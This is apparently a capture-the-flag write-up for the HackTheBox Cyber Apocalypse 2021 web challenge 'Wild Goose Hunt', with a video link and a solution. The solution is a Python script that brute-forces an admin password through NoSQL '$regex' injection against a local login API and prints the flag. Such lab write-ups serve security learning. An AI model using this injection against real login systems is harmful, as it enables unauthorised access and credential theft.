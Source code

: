```yaml
---
name: Wild Goose Hunt (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for Wild Goose Hunt (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Wild Goose Hunt

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=1680s "HTB Cyber Apocalypse CTF 2021: Wild Goose Hunt")

## Challenge Description

> Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Solution

```py
import requests
import string

flag = "CHTB{"
url = "http://127.0.0.1:1337/api/login"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Characters like *, ., &, and + has to be avoided because we use regex
    for i in "_" + string.ascii_lowercase + string.digits + "!#$%^()@{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)
        # Correct char results in "successful password"
        if 'Successful' in r.text:
            print(payload)
            restart = True
            flag = payload
            # Exit if "}" gives a valid redirect
            if i == "}":
                print("\nFlag: " + flag)
                exit(0)
            break
```

Flag: `CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}`
